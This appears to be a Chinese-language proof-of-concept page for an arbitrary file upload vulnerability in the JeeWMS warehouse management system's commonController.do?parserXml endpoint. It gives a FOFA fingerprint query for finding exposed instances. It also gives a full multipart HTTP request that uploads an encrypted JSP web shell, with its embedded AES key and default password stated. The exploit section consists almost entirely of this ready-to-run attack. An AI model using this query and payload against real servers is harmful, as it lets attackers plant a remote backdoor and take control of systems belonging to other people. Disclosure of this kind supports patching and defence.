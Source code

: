 # JEEWMS系统commonController.do存在任意文件上传漏洞

JeeWMS是一款免费开源的仓库管理系统，支持3PL和厂内物流，涵盖订单管理，仓储管理，计费管理，现场作业，RFID，AGV等功能。本文介绍了系统的简介，功能，安装，截图和链接，适合仓储企业和开发者参考。JEEWMS系统commonController.do存在任意文件上传漏洞

## fofa

```javascript
body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro"
```

## poc

```javascript
POST /jeewms/commonController.do?parserXml HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Cookie: JSESSIONID=F571DC569F0A3DC553D8D25ACA42D570; JEECGINDEXSTYLE=ace; ZINDEXNUMBER=1990; Hm_lvt_a4980171086658b20eb2d9b523ae1b7b=1713256699,1713260101
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHRhkXyQjTSAk8j8c
Content-Length: 792


------WebKitFormBoundaryHRhkXyQjTSAk8j8c
Content-Disposition: form-data; name="file"; filename="hai.jsp"
Content-Type: image/png

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundaryHRhkXyQjTSAk8j8c--
```

![输入图片说明](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502211354702.png)

![输入图片说明](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502211354338.png)

## 漏洞来源

- [JEEWMS-commonController.do？存在用于文件上传的 ParserXML ·问题 #IBFTZ7 ·JeeWMS/JeeWMS - Gitee.com](https://gitee.com/erzhongxmu/JEEWMS/issues/IBFTZ7)